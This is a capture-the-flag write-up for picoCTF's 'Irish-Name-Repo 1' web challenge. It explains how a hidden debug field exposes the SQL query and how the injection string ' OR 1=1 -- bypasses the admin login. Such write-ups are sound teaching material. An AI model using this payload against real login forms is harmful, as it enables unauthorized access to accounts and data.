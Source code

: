 # Irish-Name-Repo 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 300
Tags: picoCTF 2019, Web Exploitation
Author: CHRIS HENSLER

Description:
There is a website running at https://jupiter.challenges.picoctf.org/problem/33850/ 
or http://jupiter.challenges.picoctf.org:33850. 

Do you think you can log us in? Try to see if you can login!

Hints:
1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.
```
Challenge link: [https://play.picoctf.org/practice/challenge/80](https://play.picoctf.org/practice/challenge/80)

## Solution

Browse to the web site and click on the menu-button in the upper left corner.  
Select `Admin Login` and you get redirected to `/login.html`.

Right-click on the background and select `View page source` in the menu (or press `CTRL + U`) to get the HTML-source.
```html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

Hhm, there is a hidden field named `debug` with the value of `0`. (`<input type="hidden" name="debug" value="0">`)  

Let's change this value to `1` with DevTools.  
Press `F12` to open DevTools, then navigate to the form in the `Elements` tab.  
Right-click on the value to change it.

If we try to login with username `admin` and password `admin` we get this message.
```
username: admin
password: admin
SQL query: SELECT * FROM users WHERE name='admin' AND password='admin'

Login failed.
```

Ah, there is a SQL-database in the backend. Lets start looking for [SQL injection](https://en.wikipedia.org/wiki/SQL_injection).

Trying to login with username `admin` and password `' OR 1=1 --` returns a web page with
```
username: admin
password: ' OR 1=1 --
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1 --'

Logged in!

Your flag is: picoCTF{<REDACTED>}
```

The first single quote in the `password` field ends the `WHERE` statement.  
The `OR 1=1` is just a statement that is always true, making the expression valid.  
The `--` makes sure any code after this (the final single quote) is interpreted a comment.

For additional information, please see the references below.

## References

- [Wikipedia - SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
